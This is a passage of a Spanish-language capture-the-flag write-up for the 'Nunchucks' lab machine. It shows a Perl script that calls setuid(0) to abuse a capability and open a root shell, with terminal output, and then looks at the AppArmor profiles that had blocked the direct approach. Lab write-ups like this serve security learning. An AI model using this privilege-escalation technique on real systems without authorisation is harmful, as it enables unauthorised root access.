 He creado un script y he intentado ejecutar un id cambiando el UID como lo hace el script anterior.

```bash
 david@nunchucks:/tmp$ cat test.pl 
#!/usr/bin/perl
use POSIX qw(setuid); 
POSIX::setuid(0);

system("id");


david@nunchucks:/tmp$ ./test.pl 
uid=0(root) gid=1000(david) groups=1000(david)
```

Hemos cambiando nuestro uid por el de root. Vamos a intentar llamar a una bash.

```bash
david@nunchucks:/tmp$ cat test.pl 
#!/usr/bin/perl
use POSIX qw(setuid); 
POSIX::setuid(0);

system("bash");


david@nunchucks:/tmp$ ./test.pl 
root@nunchucks:/tmp# id
uid=0(root) gid=1000(david) groups=1000(david)
root@nunchucks:/tmp# 
```

### AppArmor

Ya nos hemos convertido en root. Por curiosidad quería ver porque no podía aprovecharme directamente de la capabilitie. Se estaba ejecutando AppArmor en la máquina y estaba impidiendo ejecutar una shell.


```bash
root@nunchucks:/tmp# aa-status 
apparmor module is loaded.
14 profiles are loaded.
14 profiles are in enforce mode.
   /usr/bin/man
   /usr/bin/perl
   /usr/lib/NetworkManager/nm-dhcp-client.action
   /usr/lib/NetworkManager/nm-dhcp-helper
   /usr/lib/connman/scripts/dhclient-script
   /usr/sbin/mysqld
   /usr/sbin/tcpdump
   /{,usr/}sbin/dhclient
   ippusbxd
   lsb_release
   man_filter
   man_groff
   nvidia_modprobe
   nvidia_modprobe//kmod
0 profiles are in complain mode.
2 processes have profiles defined.
1 processes are in enforce mode.
   /usr/sbin/mysqld (920) 
0 processes are in complain mode.
1 processes are unconfined but have a profile defined.
   /usr/bin/perl (1649) 
```
